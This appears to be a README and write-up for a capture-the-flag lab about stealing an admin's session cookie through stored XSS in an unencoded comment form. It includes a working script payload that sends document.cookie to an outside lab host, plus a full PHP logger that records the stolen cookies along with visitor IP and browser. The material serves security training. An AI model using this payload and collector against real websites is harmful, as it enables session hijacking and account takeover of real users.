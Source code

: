 # XSS Cookie Stealer Challenge

To solve this challenge, you need to exploit an XSS vulnerability and grab the admin's session ID. Once you log in as admin, you will see the flag.

## Prerequisites

1. Download and install phantom.js. http://phantomjs.org/download.html
1. Run the xss-bot to continuously load the vulnerable page as admin.

    while sleep 10; do phantomjs --ignore-ssl-errors=true --local-to-remote-url-access=true --web-security=false --ssl-protocol=any xss-bot.js; done;


## Write-Up

The index page allows you to anonymously post comments. These comments are not HTML-encoded, which means it is vulnerable to an XSS attack.
Inject some javascript that will grab the cookie and send it to your own server to save it. Example:

    <script>new Image().src="http://192.168.33.10/exploits/cookie-stealer.php?c="+document.cookie</script>
	
You will need a web service that you can pass the cookie to. Example:

    <?php
	    $cookie = $_GET['c'];
	    $date = date("j F, Y, g:i a");;
	    $referer = getenv('HTTP_REFERER');
	    $userip = getenv('REMOTE_ADDR');
	    $userbrowser = getenv('HTTP_USER_AGENT');
	    $fp = fopen('cookies.txt', 'a');
	    fwrite($fp, '***|Cookie: '.$cookie.'|Date: '.$date.'|Referer: '.$referer.'|IP: '.$userip.'|Browser: '.$userbrowser.'|***'."\n");
	    fclose($fp);
    ?>

The challenge will automatically load the page as admin, so if your script works you should get the admin's cookie.
Add the cookie to your browser, and refresh the page. If it works, you will see the flag at the top of the page.